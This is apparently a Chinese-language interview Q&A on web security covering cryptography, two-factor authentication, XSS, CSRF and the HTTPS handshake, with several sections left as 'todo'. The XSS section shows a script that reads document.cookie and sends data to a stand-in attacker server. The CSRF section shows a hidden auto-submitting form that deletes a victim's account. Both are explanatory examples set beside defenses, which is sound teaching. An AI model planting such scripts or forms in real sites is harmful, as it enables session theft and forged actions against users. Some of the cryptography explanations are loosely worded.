


1. [什么是代码安全？在你的观点中，这个是开发者的责任，还是公司需要专门的角色？](#1-shen-me-shi-dai-ma-an-quan-zai-ni-de-guan-dian-zhong-zhe-ge-shi-kai-fa-zhe-de-ze-ren-hai-shi-gong-si-xu-yao-zhuan-men-de-jiao-se)
2. [为什么密码学是一些你自己不需要重新发明和设计的事情？](#2-wei-shen-me-mi-ma-xue-shi-yi-xie-ni-zi-ji-bu-xu-yao-zhong-xin-fa-ming-he-she-ji-de-shi-qing)
3. [什么是双因素认证(Two Factor Authentication)？在一个已有的Web应用中，你如何实现这种机制？](#3-shen-me-shi-shuang-yin-su-ren-zheng-two-factor-authentication-zai-yi-ge-yi-you-de-web-ying-yong-zhong-ni-ru-he-shi-xian-zhe-zhong-ji-zhi)
4. [如果不是仔细处理，存在日志中包含敏感信息的风险，比如密码？如何处理这些事情呢？](#4-ru-guo-bu-shi-zai-xi-chu-li-cun-zai-ri-zhi-zhong-bao-han-min-gan-xin-xi-de-feng-xian-bi-ru-mi-ma-ru-he-chu-li-zhe-xie-shi-qing-ne)
5. [编写代码能够被SQL注入影响，并修改它；](#5-bian-xie-dai-ma-neng-gou-bei-sql-zhu-ru-ying-xiang-bing-xiu-gai-ta)
6. [能够通过代码静态检查分析来检测SQL注入，能够给出大致的思路；](#6-neng-gou-tong-guo-dai-ma-jing-tai-jian-cha-fen-xi-lai-jian-ce-sql-zhu-ru-neng-gou-gei-chu-da-zhi-de-si-lu)
7. [什么是 Cross-Site Scripting?](#7-shen-me-shi-crosssite-scripting)
8. [什么是Cross-Site Forgery Attack?](#8-shen-me-shi-crosssite-forgery-attack)
9. [HTTPS是如何工作的？](#9-https-shi-ru-he-gong-zuo-de)
10. [什么是中间人攻击（Man-in-the-middle Attack)? HTTPS如何保护的？](#10-shen-me-shi-zhong-jian-ren-gong-ji-maninthemiddle-attack-https-ru-he-bao-hu-de)
11. [怎样防止用户的会话（session）被偷？](#11-zen-yang-fang-zhi-yong-hu-de-hui-hua-session-bei-tou)


## 1 什么是代码安全？在你的观点中，这个是开发者的责任，还是公司需要专门的角色？
*todo*
## 2 为什么密码学是一些你自己不需要重新发明和设计的事情？
首先实现一套加密系统是非常困难的一件事，连这个领域的专家通常也会在这个领域出错，不管是理论还是实践中。除此之外，选择已经有的加密系统，也就意味着这个理论已经被社区广泛测试过了，而且已经有大量的系统已经支持这个加密算法。
所以你不需要设计一个密码系统除非你是靠着谋生或者能够接受社区的挑战，这是一个专业人士的课题。如果仅仅是为了挑战加密算法，也就仅仅适用于实验项目而不能用在生产中。


## 3 什么是双因素认证(Two Factor Authentication)？在一个已有的Web应用中，你如何实现这种机制？
双因素认证也叫做两步验证，这是一种安全认证过程这样用户可以提两种不同的认证因素来验证用户身份。这个方式比传统的单因素，比如用户名和密码安全得多。双因素认证的过程是这样的，当你需要访问敏感数据来源的的时候，除了需要输入用户名和密码之外，还需要提供第二种认证输入，比如秘钥或者生物特征因素。
对于认证因素，主要有以下几种：

1. 认知认证：这是用户已知的信息，比如密码，PIN(个人身份号码)，
2. 拥有认证：比如以下 ID 卡，安全 token，手机，移动设备或者只能手机的 app，
3. 生物认证：比如用户身体指纹，视网膜等等，
4. 位置认证：尝试授权的设备需要在特定的位置范围，
5. 时间认证：授权只允许在特定的时间窗口内完成

那么双因素认证的过程是怎样的呢?

1. 用户在应用程序后者网站被提示登录
2. 用户输入用户名和密码
3. 网站或者应用程序提示进行第二部验证，在这一步可以选择多个认证方式，比如安全 Token, ID 卡等等
4. 在第三步中，用户输入上一步实时生成的代码
5. 如果提供了两步认证，用户被授权访问敏感数据

## 4 如果不是仔细处理，存在日志中包含敏感信息的风险，比如密码？如何处理这些事情呢？
*todo*
## 5 编写代码能够被SQL注入影响，并修改它；
*todo*
## 6 能够通过代码静态检查分析来检测SQL注入，能够给出大致的思路；
*todo*
## 7 什么是 Cross-Site Scripting?

Cross-Site Scripting 也叫做 XSS ，它允许攻击者将客户端代码侵入到用户的的浏览的页面中。为什么它可以做到这一点呢？因为它绕过了同源策略（Same Origin Policy)。

所谓同源策略也就是说浏览器针对同一个站点的内容都授予权限来访问资源，比如说 cookie 什么的。如果网站内容下面三者相同，就表明是同源的
1. URI schema 相同
2. host 名相同
3. port 相同

攻击者将有问题的脚本（一般为代码）通过安全的网站分发给浏览这个网站的用户，由于脚本现在属于同源的内容，因此有权限访问一些敏感的数据，并且将它们发送给攻击者，这样完成了数据窃取。
假设现在有一个相亲网站，你是其中的一名会员，不过你想知道有哪些人访问了你的主页。你可以在自我介绍的的输入框的最后，添加上这么一段代码
```js
<script> 
let cookie = document.cookie;
let userName = getUsername("https://www.binddate.com", cookie);
sendUserNameToMyServer("https://www.myserver.com", userName);
</script>
```

这样在别的会员在用浏览器加载你的主页的时候，你的自我介绍就会被从数据库中加载到用户的浏览器中。但是最后的 `script` 标签会被浏览器执行，由于是同源上的内容，所以正在浏览的用户的 cookie 就会被访问，进而读取到用户的姓名，完成了数据的窃取。

XSS 主要分为四种
1. Reflected. 这是大部分 XSS 的类型，它是由客户端提供的内容导致的。一般的搜索或者提交的 Web 应用都会返回用户的输入。如果用户的提交的的内容是攻击的代码，那么就可能导致问题的出现。
2. Stored: 这种类型是用户的攻击的代码存储在数据库中，而且能够将这个脚本发送给所有正常的页面。比如上面的例子就是这种类型。
3. Server-side versus DOM-based vulnerabilities: 这是将渲染和业务逻辑放置在客户端引出的 XSS 攻击
4. Mutated: 这是一种看上去安全的内容，但是但是它能够通过浏览器重写，修改和解析标记文本，比如少些一个闭合的方括号。

既然出现了 XSS 的攻击，就有办法阻止这种攻击

- [XSS 检查清单](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [DOM 类型检查清单](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)
- [代码 Review 注意事项](https://owasp.org/www-project-code-review-guide/migrated_content)

## 8 什么是Cross-Site Forgery Attack?

CSFA 是一种网络攻击，它强制终端用户执行一些原本不想执行的操作，这些操作使用了当前的用户的认证信息，比如 `cookie` 等等。那么 `CSFA` 是如何工作的呢？ 接下来我们举一个例子：
假设有一个网站叫做 `http://vulnerable.com`，我们在这个网站上有各自的账户，如果这个网站上的个人账户页面上提供了一个删除按钮，那么当我们点击这个按钮，那么这个按钮就会执行下面的 `HTTP` 请求

```
POST /delete_my_account HTTP/1.1
Host: vulnerable.com
Content-Type: application/x-www-form-urlencoded
Cookie: SessionID=d34dc0d3

delete = 1
```

由于请求中包含了 Cookie，因为包含了 `cookie` 因为服务端会授权这次删除操作。假设有个攻击者通过邮件或者网页上的超链接发送用户，但是这个超链接的缺包含了下面一段代码

```html
<form action="http://vulnerable.com/delete_my_account"
      method="POST"
      id="csrf_form">
    <input type="hidden" name="delete" value="1">
</form>
<script>
    document.getElementById("csrf_form").submit()
</script>
```
由于这个 `form` 是隐藏的，所以用户并没有看到这个表单，而且通过 `Javascript` 脚本自动执行了表单的提交，由于这次的请求是发送给 `http://vulnerable.com`，根据同源策略，浏览器会将相应的 `host` 下面的 `cookie` 一同发送过去。这样服务端会认为这是一个真正用户的请求，从而完成删除操作。

这就是 `Cross-Site Forgery Attack`， 那么有没有办法阻止这种情况发生呢？当然有，目前服务端采用 `anti-CSRF` 的策略，该策略是在为 `POST` 之类的 `form` 随机生成一个数字，只有请求发送过来的数值相同才认同这次的请求。


## 9 HTTPS是如何工作的？

`HTTPS` 是建立在标准的 `HTTP` 协议上的使用 `SSL/TLS` 加密的协议。它可以保护我们在网络上传输的数据，以防止被攻击者窃听。当我们是用 Microsoft Edge 浏览器访问特定的网站，如果地址栏前面有 🔒 标志，则说明目前是通过 HTTPS 协议。


那么 `HTTPS` 是如何工作的呢？在 HTTP 协议中，服务端和客户端通过请求和响应的方式来通信，而 `SSL` 连接将请求和响应加密和解密。它主要有两个目的：

1. 确保客户端访问的服务端就是你想访问的服务端
2. 确保只有服务端能够读取客户端发送的消息，反之亦然。

这就意味着任何人都可以拦截客户端发送服务端的消息，哪怕是之前通信的服务端，都不能读取你加密之前发送的内容。

在握手阶段，`SSL` 连接就建立起来，主要有下面三个目的
1. 确保服务端是访问的是争取的服务端，反之也可以
2. 为两边确定加密方法，主要包含那种加密算法来交换数据
3. 为两边确定加密算法确定必要的 key

一旦加密完成，就可以通过上述确定的加密算法和 key 来对交换的消息进行加密。我们将会将这个握手过程拆分成三步

1. **Hello**: 首先客户端发送一个 `ClientHello` 的消息给服务端，它包含了服务端需要的信息，比如客户端能够提供了的加密方法和 `SSL` 支持的最大版本。服务端同时返回 `ServerHello` 消息，这个包含了客户端需要的信息，比如究竟哪个加密算法被选择了，哪个版本的 SSL 被选择了。
2. **Certificate Exchange**: 这时候服务端需要提供了必要的信息来证明自己就是客户端需要的服务端。通常者通过 `SSL Certificate` 来完成，一个 `Certificate` 通常包含了这些信息：拥有者的名字，相关的属性，证书的公钥，数字签名和证书的有效性的数据，客户端通过各种方式来验证这些数据的合法性。对于一些敏感的应用程序，通常也要求客户端提供相关的证书。
3. **Key Exchange** 客户端和服务端的数据交换的采用的对称加密，加密方式在第一步 `Hello` 阶段就确定了。对称加密采用唯一的 `key` 来加密和揭秘，这个不同于非对称加密的 `public/private` 密钥, 两边都需要同意这个对称加密的 key，这个交换 `key` 的流程由非对称加密完成，用的是服务端的 `public/private` 密钥。

客户端随机生成用在对称加密中的 key，然后用 SSL 证书中的公钥来对 `key` 进行加密，然后发送给服务端，服务端然后用私钥对其进行解密。现在客户端和服务端都拥有了对称加密的公钥和私钥，解析来它们所有消息都可以用简单文本进行加密，然后发送。在服务端接收到消息后，使用 `key` 进行解密，获得原本的内容。这样中间人攻击根本没有办法来读取或者修改消息，哪怕截获了消息。

**Certifaces**

在上面的介绍了，证书（`Certificate`）是最重要的的一个东西。从某种意义上来讲，证书就是一个简单的文本文件。你也可以自己创建一个证书，说自己的服务器就是 `Microsoft` 公司。那么这就涉及到一个关键的概念：数字签名，它可以允许接收者验证发送者是否正如它声明的那样。在两种情况下，在两种情况下可以信任一个证书：
1. 它是一系列已经默认的信任的证书。
2. 在被上述证书中的任何一个性能。

第一种情况非常容易去检查，客户端浏览器已经预先安装了一系列证书，这些证书是由一系列非常安全的机构或者组织颁发的，比如Symantec, Comodo 等等，如果一个服务端出具了上述的证书，客户端可以信任它们。

第二种情况就比较复杂了，如果一个服务端发来一个证书，并且说明我这个证书是被 `Symantec` 这个证书信任的。这是客户端需要一个机制来验证这个证书的声明是否正确的，这是需要数字签名来验证。

在前面说我们说过，非对称加密算法中包含了公钥和私钥，使用公钥加密一段文本，只有私钥才能解密。反之亦然，用私钥加密的文本，只有公钥才能解密，而且只有私钥才能完成加密这一步。如果一个证书被别的证书签名过了，也就是它的内容被私钥已经加密过了。这时候我们只需要通过公钥对发过来的证书使用公钥进行解密，如果结果和申明的一致，也就是说它能够被信任。

那么可以看一下 `Edge` 浏览器中预先安装的 `Certificate` 

点击其中一个，可以查看这个证书的详细信息，比如公钥。

## 10 什么是中间人攻击（Man-in-the-middle Attack)? HTTPS如何保护的？
*todo*
## 11 怎样防止用户的会话（session）被偷？
*todo*